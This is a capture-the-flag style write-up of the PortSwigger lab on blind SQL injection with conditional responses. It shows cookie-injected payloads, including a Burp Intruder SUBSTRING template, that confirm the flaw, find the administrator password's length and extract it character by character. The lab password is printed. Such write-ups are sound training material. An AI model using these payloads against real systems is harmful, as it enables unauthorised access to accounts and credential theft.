

# Write-up: Blind SQL injection with conditional responses
Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses>  
Difficulty: PRACTITIONER  
Python script: 

## Lab description


## Steps

### Enumeration

We modify the TrackingId in cookies to check for SQL injection. 
`TrackingId=MkWngWpTCMxNEuxw' AND '1'='1`, which gives us the response `Welcome back!` and
`TrackingId=MkWngWpTCMxNEuxw' AND '1'='2`, which doesn't give us the response `Welcome back!`. This confirms the vulnerability.

Now, we need to find if users table exists in the database and also if it has `administrator` user.
`TrackingId=MkWngWpTCMxNEuxw' AND (SELECT 'a' FROM USERS WHERE username='administrator') = 'a`, which gives us the response `Welcome back!` and confirms the table and user exists.

We will check the length of the password of the user `administrator` by using LENGTH function.
`TrackingId=MkWngWpTCMxNEuxw' AND (SELECT LENGTH(password) FROM USERS WHERE username='administrator') = 1`. Using intruder we can set payload and check for the length of the password. Which comes out to be 20.


### Exploitation

We use the `SUBSTRING` function of sql to conpare the password at each position with alphanumeric characters `a-z`, `A-Z` and `0-9`.
For automating this we use the Burpsuite Intruder with the following payload.

```sql
TrackingId=MkWngWpTCMxNEuxw' AND (SELECT SUBSTRING(password,§1§,1) FROM USERS WHERE username='administrator') = '§a§
```

We set payload §1§ and its type to numbers and from 1-20 and load the characters for 2nd payload to alphanumberic. We also set the Match grep in settings to `Welcome back` to get the response.

Which gives us the password `nm7vdtbdooubpcrkks5g` and we can now login as administrator.

Hence, the lab is sovled.

